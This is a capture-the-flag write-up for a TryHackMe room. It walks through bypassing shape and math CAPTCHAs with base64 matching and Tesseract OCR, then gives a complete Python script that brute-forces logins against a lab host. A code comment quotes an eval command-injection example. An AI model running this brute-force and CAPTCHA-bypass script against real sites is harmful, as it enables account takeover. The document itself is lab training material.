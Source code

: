 ```yaml
---
title: CTF tryhackme capturereturns
categories: [CTF, THM, Hard]
tags: [ftp, http, ssh, linux_privesc]
date: 2024-04-22 08:00 +0700
---
```


In this room, we'll see how to bypass 2 custom CAPTCHA systems using python

[https://tryhackme.com/r/room/capturereturns](https://tryhackme.com/r/room/capturereturns)

## Login form analysis
- we need to bypass a login form security measures
- after a few failed login attempts, we get 2 types of CAPTCHA
- the first CAPTCHA system is about identifying a shape in an image
![](/assets/img/img_thm_ctf_capturereturns_1.png)
- the second CAPTCHA system is about solving a mathematical operation written as an image
![](/assets/img/img_thm_ctf_capturereturns_2.png)
- after solving 3 CAPTCHAs in a row, we can use the login form again
![](/assets/img/img_thm_ctf_capturereturns_3.png)
- after 3 failed login attempts, we have to solve the CAPTCHAs again

## The shapes
- good news, the shapes are static (eg a circle will always have the same base64 value)
- an easy way to differentiate the images values would be to extract 3 pieces of strings that are only in one of them.
- example for the circle:
	- get a CAPTCHA with triangle shape -> right click on it -> open image in new tab -> copy the url -> paste it in a file "circle.txt". Do the same for the other shapes
	- copy a long enough string
	- `head -c 300 ./shapes/circle.txt` get a part of the image value
	- verify that it isn't in the other shapes
		- `grep "PeZ7dZ5+Z93w+cz4zDbSDstRZGnqOljqKFbiOYwWu49T6Mtg8" ./shapes/triangle.txt`
		- `grep "PeZ7dZ5+Z93w+cz4zDbSDstRZGnqOljqKFbiOYwWu49T6Mtg8" ./shapes/square.txt`
	- store the string, then repeat for the other 2 shapes
- after this, we can build a list of dictionaries
```python
shapes_data = [
	{"answer": "circle", "unique": "PeZ7dZ5+Z93w+cz4zDbSDstRZGnqOljqKFbiOYwWu49T6Mtg8"},
	{"answer": "square", "unique": "TmpBGEDx7wKWoiS4ARtXYMMa3AwJsAQKXIMLcA92LoCGgrgCGhpsgfvu3IyveA"},
	{"answer": "triangle", "unique": "1icoweuEUzHY/IV/opz4Nc56C/vB39X5+C35OfoNH8d2/wWHa/fr"}
]
```

## Extracting text from an image
### Asking Llama 3 70b
- let's get some help from a Llama 3 70b model
![](/assets/img/img_thm_ctf_capturereturns_4.png)
- alright! If that works we're golden. Let's first try with a local image
### POC, extracting text from image
- `pip install requests beautifulsoup4 pillow pytesseract`
- on kali linux, I had to also install those packages too
- `sudo apt install tesseract-ocr libtesseract-dev -y`
- first we generate a CAPTCHA with a mathematical operation -> right click on it -> open image as new Tab
- copy the base64 value after `base64,`
![](/assets/img/img_thm_ctf_capturereturns_5.png)
- paste the string in base64.b64decode(...)

```python
import base64
import requests
from bs4 import BeautifulSoup
from PIL import Image
import pytesseract

img_data = base64.b64decode("iVBORw0KGgoA[.....]")

# Save the image to a temporary file (required for OCR)
with open('temp.png', 'wb') as f:
    f.write(img_data)

image = Image.open('temp.png')
image = image.convert('L')  # Convert to grayscale

# Perform OCR using Tesseract
text = pytesseract.image_to_string(image)

print(text)  # Extracted text from the image
```

![](/assets/img/img_thm_ctf_capturereturns_6.png)
- it works! The hardest part is done, now let's just code the whole logic


## Final script
- here's the final code, heavily commented


```python
#!/usr/bin/python  
import requests 
import re   
import base64
import urllib3
from bs4 import BeautifulSoup
from PIL import Image
import pytesseract
import time
  
URL = "http://10.10.181.29/login"  
REQUEST_TIMEOUT = 0.3
first_request = True

# Initializing a session  
session = requests.Session()   
data = {'username': '','password':''}

# Removing the line feed (\n) from the usernames and passwords read from the respective files  
usernames = open('usernames.txt','r').read().splitlines()  
passwords = open('passwords.txt', 'r').read().splitlines()  
 
# "unique" is a string found only in the base64 value of the image shape "answer", and not the other 2
shapes_data = [
	{"answer": "circle", "unique": "PeZ7dZ5+Z93w+cz4zDbSDstRZGnqOljqKFbiOYwWu49T6Mtg8"},
	{"answer": "square", "unique": "TmpBGEDx7wKWoiS4ARtXYMMa3AwJsAQKXIMLcA92LoCGgrgCGhpsgfvu3IyveA"},
	{"answer": "triangle", "unique": "1icoweuEUzHY/IV/opz4Nc56C/vB39X5+C35OfoNH8d2/wWHa/fr"}
]

# Solve an operation from text eg " 5+ 3" -> "8"
# While it's not mandatory to use a regex here, it's important to filter text going in eval as it can execute any python code
#	cf eval("__import__('os').system('id')")
def solve_operation(text):  
	captcha_syntax = re.compile(r'(\s*\s*\d+\s*[+*-/]\s*\d+)\s*')  
	captcha = captcha_syntax.findall(text)  
	# We couldn't parse the operation, we must not pass an empty array to eval(), it will raise an error (should never happen since I filter the part after '=')
	if (len(captcha) == 0):
		print(f'Impossible to parse the operation {text}')
		return 'Error'
	else:
		return eval(' '.join(captcha))

# Send a post request until we don't get a timeout
def send_response(session, URL, data, timeout, ttype):
	response = None
	while True:
		try:
			response = session.post(URL, data=data, timeout=REQUEST_TIMEOUT)
			if response.status_code != 200:
				print("A request wasn't successfull")
			else:
				break
		# Filter the many kind of errors related to Timeout
		except (requests.exceptions.ConnectionError, requests.exceptions.ReadTimeout, urllib3.exceptions.ReadTimeoutError, TimeoutError) as e:
			print(f'Timed out {ttype}') # Print the kind of requests we were doing
			continue

	return response

for user in usernames:
	for password in passwords:
		# Try a login request with a user/pass couple
		data = {'username': user,'password': password}
		print(f'trying: {user}  {password}')
		response = send_response(session, URL, data, REQUEST_TIMEOUT, "login")

		# CAPTCHAs We need to solve 3 CAPTCHAs before trying our login request
		if 'Detected 3 incorrect login attempts!' in response.text:
			while 'Detected 3 incorrect login attempts!' in response.text:
				soup = BeautifulSoup(response.content, 'html.parser')
				# Extract the base64 encoded image
				img_tag = soup.find('img')
				base64_img_data = img_tag['src'].split(',')[1]
				answer = ''
				captcha_data = ''
				captcha_type = ''

				# SHAPE SELECTION
				if 'Describe the shape below' in response.text:
					captcha_type = 'shape'
					for row in shapes_data:
						# We found the unique string in the base64 value of the image, it's an "answer" shape
						if row["unique"] in base64_img_data:
							answer = row["answer"]
							break
				# MATHEMATICAL OPERATION
				else:
					captcha_type = "operation"
					# Get convert the base64 image value to bytes
					img_data = base64.b64decode(base64_img_data)
					# Save the image to a temporary file (required for OCR -> Optical Character Recognition)
					with open('temp.png', 'wb') as f:
					    f.write(img_data)

					image = Image.open('temp.png')
					image = image.convert('L')  # Convert to grayscale

					# Perform OCR using Tesseract
					operation = pytesseract.image_to_string(image)
					# Get the text before '=', we only want the operation, not '=?'
					operation = operation.split('=')[0]
					answer = solve_operation(operation)
					captcha_data = operation


				# We didn't find the shape (should never happen)
				if answer == '':
					print('Shape was not found!')
					print(base64_img_data)
					exit()

				data = {'captcha': answer}
				# Since we replaced the response content, we'll check if we still need to solve CAPTCHAs in the while condition
				response = send_response(session, URL, data, REQUEST_TIMEOUT, f'CAPTCHA {captcha_type}')


			# Retry the login request now that we solved 3 CAPTCHAs
			if first_request:
				print(f'repeat: {user}  {password}')
				data = {'username': user,'password': password}
				response = send_response(session, URL, data, REQUEST_TIMEOUT, "login repeat")
				first_request = False
		elif 'Error' not in response.text:
			print(f'SUCCESS: {user} --- {password}')
			exit()
```

![](/assets/img/img_thm_ctf_capturereturns_7.png)
